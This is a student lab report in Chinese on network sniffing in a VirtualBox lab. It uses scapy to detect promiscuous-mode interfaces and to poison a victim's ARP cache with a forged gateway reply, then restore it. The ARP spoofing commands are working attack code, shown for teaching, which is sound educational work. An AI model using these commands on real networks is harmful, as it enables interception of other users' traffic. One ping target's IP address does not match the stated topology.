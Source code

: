 # 实验四 网络监听

## 实验环境

- `VirtualBox`

- `scapy`

### 网络拓扑

- 攻击者主机
    - 08:00:27:51:7f:8b / eth1
    - 172.16.222.100
- 受害者主机
    - 08:00:27:d5:c0:c3 / enp0s3
    - 172.16.222.124
- 网关
    - 08:00:27:57:53:5a / enp0s10
    - 172.16.222.1

![网络拓扑](img/internet.png)

### 安装scapy

```
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```

![安装scapy](img/inst_scapy.png)

![装好了](img/inst_scapy_1.png)

## 实验过程

### 实验一：检测局域网中的异常终端

```
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show enp0s3
# 注意上述输出结果里应该没有出现 PROMISC 字符
```

![混杂模式未开启](img/show_enp0s3.png)

```
# 在攻击者主机上开启scapy
sudo scapy
# 在 scapy 的交互式终端输入以下代码回车执行
pkt = promiscping("172.16.222.124")
```

![发个包](img/send_pkt.png)

```
# 手动开启该网卡的「混杂模式」
sudo ip link set enp0s3 promisc on

# 此时会发现输出结果里多出来了 PROMISC 
ip link show enp0s3
```

![混杂模式开启](img/show_enp0s3_1.png)

```
# 回到攻击者主机上的 scapy 交互式终端继续执行命令
# 观察两次命令的输出结果差异
pkt = promiscping("192.168.0.102")
```

![收到包](img/send_pkt_1.png)

```
# 在受害者主机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set enp0s3 promisc off
```

### 实验二：手工单步“毒化”目标主机的 ARP 缓存

- 以下代码在攻击者主机上的 `scapy` 交互式终端完成。

```
# 获取当前局域网的网关 MAC 地址
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.222.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()

```

![ARP信息](img/send_arp.png)

```
# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)
```

![发送APR广播包](img/send_brd.png)

```
# 伪造网关的 ARP 响应包
# 准备发送给受害者主机 172.16.222.124
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=Ether()/ARP(op=2, psrc="172.16.222.1", pdst="172.16.222.124", hwdst="08:00:27:51:7f:8b")
# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```

![伪造毒包](img/send_poison.png)

- 此时在受害者主机上查看 `ARP` 缓存会发现网关的 `MAC` 地址已被「替换」为攻击者主机的 `MAC`地址

```
ip neigh
# 172.16.222.100 dev enp0s3 lladdr 08:00:27:51:7f:8b STALE
# 172.16.222.1 dev enp0s3 lladdr 08:00:27:51:7f:8b REACHABLE
```

![MAC地址换了](img/replace_add.png)

- 回到攻击者主机上的 scapy 交互式终端继续执行命令。

```
# 恢复受害者主机的 ARP 缓存记录
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = ARP(op=2, psrc="172.16.222.1", hwsrc="08:00:27:57:53:5a", pdst="172.16.222.124", hwdst="08:00:27:d5:c0:c3")
sendp(restorepkt1, count=100, inter=0.2)
```

![发一百个包安慰受害者](img/send_pkt_100.png)

- 此时在受害者主机上准备“刷新”网关 ARP 记录。
```
## 在受害者主机上尝试 ping 网关
ping 172.16.222.1
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```

![MAC地址变回去了](img/send_poison_1.png)

## 实验反思
1. `permissionerror`意为权限许可错误，可以尝试在命令前加sudo

![权限错误](img/mistake.png)

2. 攻击者主机和受害者主机不在同一局域网下不会受到包

![收不到包](img/mistake_1.png)
## 参考文献
[在线课本](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)